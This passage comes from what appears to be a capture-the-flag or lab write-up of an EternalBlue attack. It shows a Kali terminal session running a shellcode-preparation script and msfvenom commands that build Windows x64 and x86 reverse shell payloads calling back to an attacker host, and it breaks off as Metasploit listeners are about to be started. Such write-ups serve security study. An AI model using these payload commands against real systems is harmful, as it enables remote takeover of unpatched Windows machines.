
Next I’ll prep shellcode, answering the prompts:

    
    
    root@kali# ./shell_prep.sh                  
                     _.-;;-._                                                    
              '-..-'|   ||   |                                                   
              '-..-'|_.-;;-._|                                                   
              '-..-'|   ||   |                                                       
              '-..-'|_.-''-._|                                                   
    Eternal Blue Windows Shellcode Compiler                                      
                                                                                 
    Let's compile them windoos shellcodezzz                                      
                                                                                 
    Compiling x64 kernel shellcode                                                                      
    Compiling x86 kernel shellcode                                                   
    kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
    Y                                                     
    LHOST for reverse connection:                                          
    10.254.1.47                                                
    LPORT you want x64 to listen on:                           
    443
    LPORT you want x86 to listen on:
    445
    Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
    1                                               
    Type 0 to generate a staged payload or 1 to generate a stageless payload
    1                                       
    Generating x64 cmd shell (stageless)...    
    
    msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.254.1.47 LPORT=443
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 460 bytes
    Saved as: sc_x64_msf.bin
    
    Generating x86 cmd shell (stageless)...
    
    msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.254.1.47 LPORT=445
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Saved as: sc_x86_msf.bin
    
    MERGING SHELLCODE WOOOO!!!
    DONE
    

Next I’ll run the script to prepare the listeners, giving the same port
numbers and IP I gave in the previous script. It will start Metasploit and
start two listeners:
